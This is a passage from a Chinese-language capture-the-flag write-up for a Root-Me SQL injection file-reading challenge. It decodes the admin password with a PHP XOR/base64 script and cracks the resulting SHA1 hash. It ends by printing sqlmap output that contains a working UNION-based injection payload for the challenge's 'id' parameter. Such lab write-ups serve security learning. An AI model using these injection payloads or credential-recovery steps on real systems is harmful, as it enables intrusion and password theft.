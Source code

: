 在前面已知 `admin` 被加密的密码是 `VA5QA1cCVQgPXwEAXwZVVVsHBgtfUVBaV1QEAwIFVAJWAwBRC1tRVA==` ，根据这些步骤做逆运算即可得到真正的密码。

由于异或运算重复计算一次就是逆运算，因此可以利用 index.php 源码，构造这样的 PHP 代码进行 Base64 和 异或运算 的解码逻辑：

```php
<?php
function stringxor($o1, $o2) {
    $res = '';
    for($i=0;$i<strlen($o1);$i++)
        $res .= chr(ord($o1[$i]) ^ ord($o2[$i]));        
    return $res;
}
$key="c92fcd618967933ac463feb85ba00d5a7ae52842";
echo stringxor($key, base64_decode("VA5QA1cCVQgPXwEAXwZVVVsHBgtfUVBaV1QEAwIFVAJWAwBRC1tRVA=="));
?>
```

任意找一个在线 PHP 环境执行这段代码（如 [http://www.dooccn.com/php/](http://www.dooccn.com/php/)），

得到 `77be4fc97f77f5f48308942bb6e32aacabed9cef` ，即这是 sha1 加密后的值。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/11.png)

最后再找一个 sha1 在线解码平台（如 [https://www.sha1online.org/](https://www.sha1online.org/)）对其逆向暴力破解，得到真正的密码 `superpassword` 。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/12.png)

------------

## 完成挑战

使用账号 `admin` 和密码 `superpassword` 登陆，知道这个密码就是 `flag` ，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/13.png)

------------

## 附：通过 UNION 读取 index 页面源码

即使不使用 sqlmap 的 `--file-read` ，也是可以读取到 `index.php` 文件的内容的。

这里要利用最开始通过 sqlmap 得到的 UNION 漏洞：

```shell
---
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: action=members&id=-8544 UNION ALL SELECT NULL,CONCAT(0x7178627171,0x5978584957435676765770754d7146467161426b7448577759637646646a44457458776c4975444b,0x716a627671),NULL,NULL--
---
```

先测试一下这个漏洞的探针效果：
